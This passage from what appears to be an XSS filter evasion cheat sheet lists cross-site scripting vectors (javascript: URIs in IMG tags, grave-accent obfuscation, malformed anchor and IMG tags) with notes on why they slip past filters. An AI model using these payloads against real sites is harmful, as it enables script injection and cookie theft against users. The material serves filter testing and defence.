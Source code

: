 ## No Quotes and no Semicolon

```html
<IMG SRC=javascript:alert('XSS')>
```

## Case Insensitive XSS Attack Vector

```html
<IMG SRC=JaVaScRiPt:alert('XSS')>
```

## HTML Entities

The semicolons are required for this to work:

```html
<img src='javascript:alert("XSS")' />
```

## Grave Accent Obfuscation

If you need to use both double and single quotes you can use a grave accent to encapsulate the JavaScript string - this is also useful because lots of cross site scripting filters don't know about grave accents:

```html
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
```

## Malformed A Tags

Skip the HREF attribute and get to the meat of the XXS... Submitted by David Cross \~ Verified on Chrome

```html
`\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>
```

or Chrome loves to replace missing quotes for you... if you ever get stuck just leave them off and Chrome will put them in the right place and fix your missing quotes on a URL or script.

```html
`\<a onmouseover=alert(document.cookie)\>xxs link\</a\>
```

## Malformed IMG Tags

Originally found by Begeek (but cleaned up and shortened to work in all browsers), this XSS vector uses the relaxed rendering engine to create our XSS vector within an IMG tag that should be encapsulated within quotes. I assume this was originally meant to correct sloppy coding. This would make it significantly more difficult to correctly parse apart an HTML tags:

```html
<IMG """>
<script>
  alert('XSS');
</script>
"\>
```
